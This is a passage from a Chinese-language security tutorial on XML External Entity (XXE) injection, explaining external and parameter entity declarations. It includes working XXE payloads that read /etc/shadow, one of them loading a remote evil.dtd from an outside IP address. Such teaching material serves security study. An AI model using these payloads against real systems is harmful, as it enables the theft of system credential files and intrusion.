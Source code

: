 - **2. 外部实体声明**

		<!ENTITY 实体名称 SYSTEM "URI/URL">

- 外部实体默认协议：

![post-outprotocal.png](img/post-outprotocal.png)

	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
	<!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
	<root>
	<name>&xxe;</name>
	</root>

- **3. 参数实体声明**

		<!ENTITY % 实体名称 “实体的值”>
		or
		<!ENTITY % 实体名称 SYSTEM “URI”>

- 示例：

		<?xml version="1.0" encoding="utf-8"?> 
		<!DOCTYPE xxe [
		<!ELEMENT name ANY >
		<!ENTITY  % xxe SYSTEM "http://172.31.50.131:8000/evil.dtd" >
		%xxe;]>
		<root>
		<name>&evil;</name>
		</root>
- 外部evil.dtd中的内容：

		<!ENTITY evil SYSTEM "file:///etc/shadow">

- 测试效果：
